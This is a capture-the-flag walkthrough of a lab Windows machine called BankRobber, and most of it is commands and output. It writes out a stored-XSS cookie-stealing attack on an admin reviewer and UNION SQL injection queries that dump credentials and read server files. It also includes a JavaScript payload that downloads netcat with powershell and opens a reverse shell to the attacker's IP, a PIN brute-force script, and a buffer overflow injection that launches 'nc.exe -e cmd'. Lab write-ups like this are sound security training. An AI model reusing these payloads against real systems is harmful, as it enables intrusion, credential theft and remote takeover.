








# BankRobber
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.154 --min-rate 10000                     
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-30 21:23 BST
Nmap scan report for 10.10.10.154 (10.10.10.154)
Host is up (0.11s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
443/tcp  open  https
445/tcp  open  microsoft-ds
3306/tcp open  mysql

Nmap done: 1 IP address (1 host up) scanned in 28.12 seconds

```
```
└─$ nmap -Pn -p80,443,445,3306 -sC -sV 10.10.10.154 --min-rate 10000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-30 21:27 BST
Nmap scan report for 10.10.10.154 (10.10.10.154)
Host is up (0.13s latency).

PORT     STATE SERVICE      VERSION
80/tcp   open  http         Apache httpd 2.4.39 ((Win64) OpenSSL/1.1.1b PHP/7.3.4)
|_http-server-header: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
|_http-title: E-coin
443/tcp  open  ssl/http     Apache httpd 2.4.39 ((Win64) OpenSSL/1.1.1b PHP/7.3.4)
|_http-server-header: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
|_http-title: E-coin
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql        MariaDB (unauthorized)
Service Info: Host: BANKROBBER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2023-09-30T20:27:51
|_  start_date: 2023-09-30T20:21:05
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: mean: -3s, deviation: 0s, median: -4s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.68 seconds

```
- `mysql`
```
└─$ mysql -h 10.10.10.154 --port 3306
ERROR 1130 (HY000): Host '10.10.16.9' is not allowed to connect to this MariaDB server
```
- `smb`
```
└─$ smbmap -H 10.10.10.154
[!] Authentication error on 10.10.10.154

```

- Web Server


- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.154/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50  -x php,txt --no-error
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.154/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
2023/10/01 19:41:43 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 8245]
/img                  (Status: 301) [Size: 334] [--> http://10.10.10.154/img/]
/login.php            (Status: 302) [Size: 0] [--> index.php]
/register.php         (Status: 200) [Size: 0]
/user                 (Status: 301) [Size: 335] [--> http://10.10.10.154/user/]
/admin                (Status: 301) [Size: 336] [--> http://10.10.10.154/admin/]
/link.php             (Status: 200) [Size: 0]
/css                  (Status: 301) [Size: 334] [--> http://10.10.10.154/css/]
/Index.php            (Status: 200) [Size: 8245]
/Login.php            (Status: 302) [Size: 0] [--> index.php]
/js                   (Status: 301) [Size: 333] [--> http://10.10.10.154/js/]
/examples             (Status: 503) [Size: 1058]
/notes.txt            (Status: 200) [Size: 133]
/logout.php           (Status: 302) [Size: 0] [--> index.php?msg=Succesfully logged out]
/licenses             (Status: 403) [Size: 1203]
/Register.php         (Status: 200) [Size: 0]
/fonts                (Status: 301) [Size: 336] [--> http://10.10.10.154/fonts/]

```

## Foothold/User
- http://10.10.10.154/notes.txt
```
- Move all files from the default Xampp folder: TODO
- Encode comments for every IP address except localhost: Done
- Take a break..
```

- Let's register a user


- Looks like cookies are `username` and `password`


- We can try transfering the coins
  - But as soon as we try to do that we have a pop up message, stating that admin will review the transaction


- Based on the message above, admin reviews the transaction
  - Maybe we could perform `XSS` attack
  - Both `amount` and `id` fields are numeric
  - Let's send the payload via `comment` field
    - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection
    - ``


- Let's send a payload to steal the `admin` cookies
  - https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md
  - ``
  - `username=YWRtaW4%3D;%20password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D`
  - `admin:Hopelessromantic`



- Now we login as `admin`




- Let's play with `Search` and `Backdoorchecker`
  - `Backdoorchecker` issues error that it handles only localhost requests



- `Search` seems like vulnerable to `SQL` injections





- And it's true



- Let's dump the database
  - `' UNION SELECT 1,2,3 -- -`
  - `' UNION SELECT schema_name,2,3 FROM information_schema.schemata-- -`
  - `' UNION SELECT table_schema,table_name,3 FROM information_schema.tables -- -`
  - `' UNION SELECT concat(table_schema,':',table_name ),column_name,3 FROM information_schema.columns -- -`
  - `' UNION SELECT user,password,3 FROM mysql.user -- -`




- The hash is not crackable
  - We can try stealing `NTLM` hash
    - `' UNION SELECT LOAD_FILE('\\\\10.10.16.9\\test'),2,3 -- -`
  - But it's not crackable too



- Let's try reading files from the host
  - We know from the note, that all files are in default `xampp` folder
    - https://tonyfrenzy.medium.com/xampp-serving-from-any-directory-outside-of-htdocs-22a93f1b8815
  - Based on that let's try reading `backdoorcheck.php`
    - `' UNION SELECT LOAD_FILE('c:\\xampp\\htdocs\\admin\\backdoorchecker.php'),2,3 -- -`


```
<?php
include('../link.php');
include('auth.php');

$username = base64_decode(urldecode($_COOKIE['username']));
$password = base64_decode(urldecode($_COOKIE['password']));
$bad 	  = array('$(','&');
$good 	  = "ls";

if(strtolower(substr(PHP_OS,0,3)) == "win"){
	$good = "dir";
}

if($username == "admin" && $password == "Hopelessromantic"){
	if(isset($_POST['cmd'])){
			// FILTER ESCAPE CHARS
			foreach($bad as $char){
				if(strpos($_POST['cmd'],$char) !== false){
					die("You're not allowed to do that.");
				}
			}
			// CHECK IF THE FIRST 2 CHARS ARE LS
			if(substr($_POST['cmd'], 0,strlen($good)) != $good){
				die("It's only allowed to use the $good command");
			}

			if($_SERVER['REMOTE_ADDR'] == "::1"){
				system($_POST['cmd']);
			} else{
				echo "It's only allowed to access this function from localhost (::1).<br> This is due to the recent hack attempts on our server.";
			}
	}
} else{
	echo "You are not allowed to use this function!";
}
?>
```

- The first 3 chars should be `dir`
  - We can't use `$(` and `&` chars
  - The request should be done from the localhost
  - We can bypass the first 2 checks with `dir|`
  - So we are left with the last check
    - We can utilize `XSS`
  - Create a `js` script and host it on server
  - Deploy a listener
```
var r = new XMLHttpRequest();
var cmd = 'cmd=dir | powershell -c "iwr 10.10.16.9/nc64.exe -outfile \\programdata\\nc.exe"; \\programdata\\nc.exe 10.10.16.9 6666 -e cmd';
var url = 'http://localhost/admin/backdoorchecker.php';
r.open('POST', url, true);
r.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
r.send(cmd);
```

- Now we send a `XSS` payload just like before, but it points to our `js` script
  - `<script src="http://10.10.16.9/rev.js"></script>`
  - After few minutes, we get our shell


## Root
- `whoami`
  - Everything in Dutch
```
C:\>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                           State   
============================= ===================================== ========
SeShutdownPrivilege           Systeem afsluiten                     Disabled
SeChangeNotifyPrivilege       Controle op bladeren negeren          Enabled 
SeUndockPrivilege             Computer uit basisstation verwijderen Disabled
SeIncreaseWorkingSetPrivilege Een proceswerkset vergroten           Disabled
SeTimeZonePrivilege           Tijdzone wijzigen                     Disabled

C:\>whoami /groups
whoami /groups

GROUP INFORMATION
-----------------

Group Name                                  Type             SID          Attributes                                        
=========================================== ================ ============ ==================================================
Iedereen                                    Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
INGEBOUWD\Gebruikers                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\BATCH                          Well-known group S-1-5-3      Mandatory group, Enabled by default, Enabled group
AANMELDEN OP DE CONSOLE                     Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Geverifieerde gebruikers       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Deze organisatie               Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Lokaal account                 Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOKAAL                                      Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM-verificatie               Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Verplicht niveau\Gemiddeld verplicht niveau Label            S-1-16-8192  
```

- We have a `bankv2.exe` file in `C:`
  - `Access Denied`
```
C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 3307-A1DE

 Directory of C:\

25-04-2019  16:50            57.937 bankv2.exe
24-04-2019  21:27    <DIR>          PerfLogs
21-10-2022  10:32    <DIR>          Program Files
21-10-2022  10:34    <DIR>          Program Files (x86)
24-04-2019  15:52    <DIR>          Users
11-01-2021  15:17    <DIR>          Windows
24-04-2019  21:18    <DIR>          xampp
               1 File(s)         57.937 bytes
               6 Dir(s)   5.197.508.608 bytes free

```
```
C:\>icacls bankv2.exe
icacls bankv2.exe
bankv2.exe: Toegang geweigerd.
Successfully processed 0 files; Failed processing 1 files
```

- It's currently running on port `910`
```
C:\>tasklist
tasklist

Image Name                     PID Session Name        Session#    Mem Usage
========================= ======== ================ =========== ============
...
bankv2.exe                    1632                            0        100 K
...
```
```
C:\>netstat -ano
netstat -ano

Active Connections

...
  TCP    0.0.0.0:910            0.0.0.0:0              LISTENING       1632
...
```

- Let's download `chisel` and create a tunnel
```
└─$ ./chisel server -p 9001 --reverse
2023/10/03 18:03:11 server: Reverse tunnelling enabled
2023/10/03 18:03:11 server: Fingerprint HvsTMAj3j0sUjT7CkUkDfAhNbQg520kRgOKzSx8leuE=
2023/10/03 18:03:11 server: Listening on http://0.0.0.0:9001
```
```
PS C:\ProgramData> .\chisel.exe client 10.10.16.9:9001 R:9100:localhost:910
.\chisel.exe client 10.10.16.9:9001 R:9100:localhost:910

```

- To test we can `nc` to port `9100` on our attack box
```
└─$ nc localhost 9100
 --------------------------------------------------------------
 Internet E-Coin Transfer System
 International Bank of Sun church
                                        v0.1 by Gio & Cneeliz
 --------------------------------------------------------------
 Please enter your super secret 4 digit PIN code to login:
 [$] 4833 
 [!] Access denied, disconnecting client....

```

- We can try bruteforcing the `PIN`
```
from pwn import *

for i in range(10000):
  pin = "0" * (4 - len(str(i))) + str(i)
  r = remote("127.0.0.1", 9100) 
  r.recvuntil("[$]")
  r.sendline(pin)    
  result = r.recvline()
  r.close()

  if b"[!] Access denied" not in result:
    print("[+] PIN found =>", pin)
    break

```

- Run the script
  - It behaves the same despite entering the chars
```
└─$ python3 brute-force-pin.py
[+] PIN found => 0021
```

- After entering the pin, we have a new prompt asking for amount to transfer
```
└─$ nc localhost 9100
 --------------------------------------------------------------
 Internet E-Coin Transfer System
 International Bank of Sun church
                                        v0.1 by Gio & Cneeliz
 --------------------------------------------------------------
 Please enter your super secret 4 digit PIN code to login:
 [$] 0021
 [$] PIN is correct, access granted!
 --------------------------------------------------------------
 Please enter the amount of e-coins you would like to transfer:
 [$] 12
 [$] Transfering $12 using our e-coin transfer application. 
 [$] Executing e-coin transfer tool: C:\Users\admin\Documents\transfer.exe

 [$] Transaction in progress, you can safely disconnect...

```
```
└─$ nc localhost 9100
 --------------------------------------------------------------
 Internet E-Coin Transfer System
 International Bank of Sun church
                                        v0.1 by Gio & Cneeliz
 --------------------------------------------------------------
 Please enter your super secret 4 digit PIN code to login:
 [$] 0021
 [$] PIN is correct, access granted!
 --------------------------------------------------------------
 Please enter the amount of e-coins you would like to transfer:
 [$] AADAS
 [$] Transfering $AADAS using our e-coin transfer application. 
 [$] Executing e-coin transfer tool: C:\Users\admin\Documents\transfer.exe

 [$] Transaction in progress, you can safely disconnect...
```

- It looks like we can overflow the buffer, since overwrote the name of the executable
  - Note, the service will crash if we input too much `A`s, I had to reboot the server
```
└─$ nc localhost 9100     
 --------------------------------------------------------------
 Internet E-Coin Transfer System
 International Bank of Sun church
                                        v0.1 by Gio & Cneeliz
 --------------------------------------------------------------
 Please enter your super secret 4 digit PIN code to login:
 [$] 0021
 [$] PIN is correct, access granted!
 --------------------------------------------------------------
 Please enter the amount of e-coins you would like to transfer:
 [$] AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
 [$] Transfering $AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA using our e-coin transfer application. 
 [$] Executing e-coin transfer tool: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

 [$] Transaction in progress, you can safely disconnect...

```

- Let's find the offset
  - First create the pattern
  - Then send it to service
```
└─$ msf-pattern_create -l 50                                                                     
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab
```
```
└─$ nc localhost 9100
 --------------------------------------------------------------
 Internet E-Coin Transfer System
 International Bank of Sun church
                                        v0.1 by Gio & Cneeliz
 --------------------------------------------------------------
 Please enter your super secret 4 digit PIN code to login:
 [$] 0021
 [$] PIN is correct, access granted!
 --------------------------------------------------------------
 Please enter the amount of e-coins you would like to transfer:
 [$] Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab
 [$] Transfering $Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab using our e-coin transfer application. 
 [$] Executing e-coin transfer tool: 0Ab1Ab2Ab3Ab4Ab5Ab

 [$] Transaction in progress, you can safely disconnect...
 ```

 - Then find the offset using `msf-pattern_offset`
   - It's 32
```
└─$ msf-pattern_offset -q 0Ab1
[*] Exact match at offset 32
```

- Create a payload
  - And send it
```
└─$ python3 -c 'print("A"*32 + "\\programdata\\nc.exe 10.10.16.9 7777 -e cmd")'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\programdata\nc.exe 10.10.16.9 7777 -e cmd
```
```
└─$ nc localhost 9100
 --------------------------------------------------------------
 Internet E-Coin Transfer System
 International Bank of Sun church
                                        v0.1 by Gio & Cneeliz
 --------------------------------------------------------------
 Please enter your super secret 4 digit PIN code to login:
 [$] 0021
 [$] PIN is correct, access granted!
 --------------------------------------------------------------
 Please enter the amount of e-coins you would like to transfer:
 [$] AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\programdata\nc.exe 10.10.16.9 7777 -e cmd
 [$] Transfering $AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\programdata\nc.exe 10.10.16.9 7777 -e cmd using our e-coin transfer application. 
 [$] Executing e-coin transfer tool: \programdata\nc.exe 10.10.16.9 7777 -e cmd

 [$] Transaction in progress, you can safely disconnect...

```

- We got our shell

